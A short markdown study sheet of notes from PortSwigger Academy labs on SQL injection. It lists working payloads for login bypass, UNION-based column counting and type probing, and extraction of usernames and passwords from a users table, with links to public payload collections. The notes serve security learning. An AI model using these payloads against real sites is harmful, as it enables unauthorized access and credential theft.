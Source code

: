 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after
- ```+``` URL encoding for simple space ' ' 
- ```%20``` Same as above ... URL encoding for simple space ' ' 
- ```%27``` means this bad boy ```'```

Payloads that just worked somewhere:
```
'--
admin'--
administrator'-- 
' OR 1=1 -- 
OR 1=1 -- 
```
So how many collumns do we have? 
```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL, NULL-- 
' UNION SELECT NULL, NULL, NULL-- 

' UNION SELECT NULL FROM DUAL-- 
' UNION SELECT NULL, NULL FROM DUAL-- 
' UNION SELECT NULL, NULL, NULL FROM DUAL-- 


' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT username, password FROM users-- 
```
- The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment. 

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
